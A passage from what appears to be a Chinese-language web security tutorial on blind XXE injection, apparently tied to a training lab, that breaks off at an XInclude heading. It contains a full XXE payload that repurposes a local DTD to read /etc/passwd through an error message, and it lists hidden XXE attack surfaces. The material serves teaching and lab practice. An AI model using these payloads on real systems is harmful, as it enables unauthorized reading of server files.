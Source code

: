 ### <a class="reference-link" name="%E9%80%9A%E8%BF%87%E5%A4%8D%E7%94%A8%E6%9C%AC%E5%9C%B0DTD%E5%88%A9%E7%94%A8XXE%E7%9B%B2%E6%89%93"></a>通过复用本地DTD利用XXE盲打

之前我们XXE盲打都是通过加载外部DTD实现的，但是如果这种方法被限制了呢，其实还是有办法的，就是通过复用本地DTD，然后在本地DTD中对于加载外部实体这种做法的限制会有所放宽，致使我们又可以加载外部DTD实现XXE盲打了，所以我们可以这样构造payload

```
&lt;!DOCTYPE foo [
&lt;!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"&gt;
&lt;!ENTITY % custom_entity '
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY &amp;#x25; error SYSTEM 'file:///nonexistent/%file;'&gt;"&gt;
%eval;
%error;
'&gt;
%local_dtd;
]&gt;
```

这段payload有点长，我们一点点来讲，这里burp直接介绍了一个内部的DTD：/usr/local/app/schema.dtd，这个内部DTD中有一个参数实体叫custom_entity，然后我们重写了这个参数实体，这里有个小知识点，在参数实体内部声明参数实体时关键字需要使用它的html编码格式，比如

```
&amp; -&gt; &amp;
' -&gt; '
```

其他的和前面利用报错信息的XXE盲打方式是一样的。这种复用本地DTD的攻击方式重点在于我们能不能找到一个这样的本地DTD，现在很多应用程序都是开源的，所以我们可以下载源码包进行查找。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E9%80%9A%E8%BF%87%E5%A4%8D%E7%94%A8%E6%9C%AC%E5%9C%B0DTD%E5%88%A9%E7%94%A8XXE%E7%9B%B2%E6%89%93"></a>配套靶场：通过复用本地DTD利用XXE盲打

因为题目中已经告知一个本地DTD：/usr/share/yelp/dtd/docbookx.dtd，里面有一个实体：ISOamso，于是我们可以构造这样的Payload

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013957a0d55468640d.png)

成功重写本地DTD利用XXE盲打

### <a class="reference-link" name="%E5%AF%BB%E6%89%BEXXE%E6%B3%A8%E5%85%A5%E7%9A%84%E9%9A%90%E8%97%8F%E6%94%BB%E5%87%BB%E9%9D%A2"></a>寻找XXE注入的隐藏攻击面

有些地方可以在没有传输任何XML格式的数据的情况下发动XXE攻击，例如
- XInclude攻击
- 通过文件上传的XXE攻击
- 通过修改Content-Type的XXE攻击
下面我们针对这两种隐藏的攻击方式展开讲解

### <a class="reference-link" name="XInclude%E6%94%BB%E5%87%BB"></a>XInclude攻击
